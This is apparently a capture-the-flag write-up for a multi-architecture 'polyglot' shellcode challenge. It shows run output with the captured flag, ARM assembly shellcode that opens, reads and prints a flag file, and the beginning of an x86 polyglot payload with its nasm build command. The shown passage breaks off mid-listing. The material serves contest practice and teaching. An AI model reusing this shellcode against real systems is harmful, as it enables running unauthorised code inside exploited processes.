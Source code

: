 Throwing shellcode against linux26-armel.(http://services.2014.shallweplayaga.me/polyglot_6a3875ce36a55889427542903cd43893)

Throwing shellcode against linux26-armeb.(http://services.2014.shallweplayaga.me/polyglot_c0e7a26d7ce539efbecc970c154de844)

Throwing shellcode against linux26-ppc.(http://services.2014.shallweplayaga.me/polyglot_5b78585342a3c116aebb5a9b45e88836)

The flag is: I can tie a knot in a cherry stem

xxx#
---------------------------------------------------------------------------------------------------------

</pre>

And we got the flag : ** I can tie a knot in a cherry stem**

**ARM shellcode:**

<pre class="brush: plain; title: ; notranslate" title="">shellcode:
        add     sp, #100
        add     sp, #100
        add     sp, #100
        add     sp, #100

        adr     r0, flag
        mov     r1, 0
        svc     0x900005
        mov     r2, #100
        mov     r1, sp
        sub     r1, #100
        svc     0x900003

        mov     r2, #100
        mov     r1, sp
        sub     r1, #100
        mov     r0, 1
        svc     0x900004

        mov     r0, 0
        svc     0x900001
flag:

</pre>

Final shellcode which shold be compield with nasm as : **nasm -fbin sc.asm -o sc.bin **

<pre class="brush: plain; title: ; notranslate" title="">[BITS 32]


                        db	0x33, 0xc0, 0x74, 0x10
                        db	0x48, 0x00, 0x01, 0x00


                        dd      0xEB0000E0
                        dd      0xE00000EB

__x86_shellcode:        nop
                        nop
                        nop
                        nop
                        nop
                        nop
                        nop
                        add    esp, 0xFFC
                        call   __delta
__delta:                pop    ebp
                        sub    ebp, __delta
                        xor    ecx, ecx
                        lea    ebx, [ebp+flag]
                        mov    eax, 0x05

 [1]: http://deroko.phearless.org/polyglot/polyglot_9d64fa98df6ee55e1a5baf0a170d3367
 [2]: http://deroko.phearless.org/polyglot/polyglot_6a3875ce36a55889427542903cd43893
 [3]: http://deroko.phearless.org/polyglot/polyglot_c0e7a26d7ce539efbecc970c154de844
 [4]: http://deroko.phearless.org/polyglot/polyglot_5b78585342a3c116aebb5a9b45e88836